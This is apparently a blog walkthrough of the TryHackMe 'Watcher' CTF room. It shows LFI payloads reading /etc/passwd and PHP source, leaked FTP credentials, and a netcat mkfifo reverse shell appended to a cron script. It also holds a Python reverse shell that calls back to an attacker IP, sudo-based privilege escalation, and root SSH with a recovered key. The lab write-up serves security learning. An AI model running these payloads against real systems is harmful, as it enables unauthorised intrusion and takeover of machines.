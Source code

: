 ```yaml
---
title: Watcher
date: 2022-12-18 18:32:00 -0500
categories: [Walkthrough, Tryhackme, CTF]
tags: [nmap, LFI, ftp, linux, sudo, find]
---
```


<https://tryhackme.com/room/watcher> A boot2root Linux machine utilising web exploits along with some common privilege escalation techniques.

# Watcher

7 flags in this room

wait 5 mins for all services to start up on the system

starting off with nmap `nmap -p- watcher.thm -vvv`

we start off running into some pretty simble LFI and can pull `/post.php?post=../../../etc/passwd` and find some users `mat` and `toby`.

scanning with gobuster reveals `robots.txt` and we can find flag 1

we can then `/post.php?post=secret_file_do_not_read.txt` and get the note for the ftp user `ftpuser:givemefiles777`

- `/post.php?post=php://filter/convert.base64-encode/resource=post.php`

this php script is just `<?php include $_GET["post"]; ?>`

inside of the secret file was a note 

```
 Hi Mat,

The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.

Will
```

So if we upload a reverse shell on the php we should be able to include it, and we get a www-data shell.

`sudo -l` we can run any command so get a toby bash, `sudo -u toby bash` and pickup the 4th flag in tobys home dir.

missed a flag so `find / -name flag_3.txt 2>/dev/null` and pick it up

Mat left us a note in tobys home dir

```
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

mat is running a script in tobys dir under his privilege, cronjob `/home/toby/jobs/cow.sh`

- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc localhost 6670 >/tmp/f" >> /home/toby/jobs/cow.sh`

we can pickup flag 5 in mats home and another note

```
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

so we can run his `will_script.py` as sudo, which lso means the whitelist of commands. So since `cat` is allowed possibly be able to read some interesting information

```
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```

this is importing cmd.py so we can overwrite it with a python shell and execute.

`echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.2.3.64',6676));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" > cmd.py`

- `sudo -u will python3 /home/mat/scripts/will_script.py cmd.py`

the hint for the last key is ssh but trying to use find doesnt seem to work and scaning through linpeas i cant find much. in `/opt/backups` we find a b64 keyfile. we can python3 webserver this over to out attacking machine decode and login as root via ssh for the last flag. `b64 -d key > root_rsa && chmod 600 root_rsa` `ssh root@watcher.thm -i root_rsa` and we win.
